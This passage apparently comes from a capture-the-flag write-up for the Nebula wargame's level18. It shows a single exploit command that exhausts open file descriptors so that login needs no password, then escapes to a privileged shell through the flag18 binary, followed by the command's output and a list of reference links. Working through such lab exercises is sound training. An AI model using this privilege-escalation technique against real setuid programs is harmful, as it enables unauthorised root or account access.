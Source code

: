 ```
level18@nebula:~$ python -c 'print "login\n"*7+"closelog\n"+"shell\n"' | /home/flag18/flag18 --init-file -d /tmp/log
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'n'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 't'
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'f'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'l'
/home/flag18/flag18: invalid option -- 'e'
You have successfully executed getflag on a target account
/tmp/log: line 2: syntax error near unexpected token `('
/tmp/log: line 2: `logged in successfully (without password file)'
```

**Reference**
- [https://stackoverflow.com/questions/34588/how-do-i-change-the-number-of-open-files-limit-in-linux](https://stackoverflow.com/questions/34588/how-do-i-change-the-number-of-open-files-limit-in-linux)
- [https://www.tutorialspoint.com/c_standard_library/c_function_fprintf.htm](https://www.tutorialspoint.com/c_standard_library/c_function_fprintf.htm)
- [http://man7.org/linux/man-pages/man2/execve.2.html](http://man7.org/linux/man-pages/man2/execve.2.html)
- [https://en.wikipedia.org/wiki/Resource_exhaustion_attack](https://en.wikipedia.org/wiki/Resource_exhaustion_attack)
- 
